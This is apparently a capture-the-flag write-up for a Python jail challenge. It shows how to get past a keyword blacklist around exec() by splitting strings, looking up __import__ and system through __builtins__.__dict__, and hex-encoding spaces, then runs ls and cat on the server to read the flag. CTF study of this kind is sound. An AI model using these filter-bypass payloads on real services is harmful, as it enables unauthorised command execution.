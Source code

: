 
# I Want To Break Free

We are given a Python file which asks us whether we can escape from jail and prompts us for an input. This input is run directly in an `exec()` call -- except if it is found to be unsafe. It is unsafe in the following two cases:

- One of the characters are outside the ASCII range, 33-126
  - This includes space, which is therefore not allowed
- A word from the provided blacklist is part of the input

The blacklist contains:

```
cat
grep
nano
import
eval
subprocess
input
sys
execfile
builtins
open
dict
exec
for
dir
file
input
write
while
echo
print
int
os
```

What we typically want in these sorts of challenges is to execute code in the server shell, so we can read out the flag. We do this by trying to get access to `os.system()`. If we have access to `__builtins__`, then we can run commands by using e.g.

    __builtins__.__import__('os').system('ls')

We have a few issues here. `import`, `os`, and `system` are all blacklisted. We can easily get around the `os` problem by just splitting the string in two and using string concatenation:

    __builtins__.__import__('o''s').system('ls')

To get around the `import` and `system` problems, we can -- instead of using dot notation -- get the elements from e.g. `__builtins__` as a dictionary by using `__builtins__.__dict__` and then access what we want as a key instead:

    __builtins__.__dict__['__import__']('o''s').__dict__['system']('ls')

And now that we access them as a string, we can use the same string splitting to get around the blacklist. This lets us execute `ls` on the server to find the flag:

    __builtins__.__dict__['__imp''ort__']('o''s').__dict__['sy''stem']('ls')

and we get

```
bin
blacklist.txt
boot
cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt
dev
etc
home
jail.py
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

The flag is very likely to be in the file with the long hex name, so we want to run `cat` on this - we can just use `cat c*.txt` to shorten the command, as this is the only txt file starting with `c`. We run into other issues here - first, the `cat` command is blacklisted, so we must split it up. And secondly we are using our first space, which is not allowed. Since we use it in a string, the easy fix is to just use another encoding of it, e.g. `\x20` in hex (or something else in binary or octal). This will be used as a space, but there is no longer a space in the actual input:

    __builtins__.__dict__['__imp''ort__']('o''s').__dict__['sy''stem']('ca''t\x20c*.txt')

Inputting this, we get the flag.
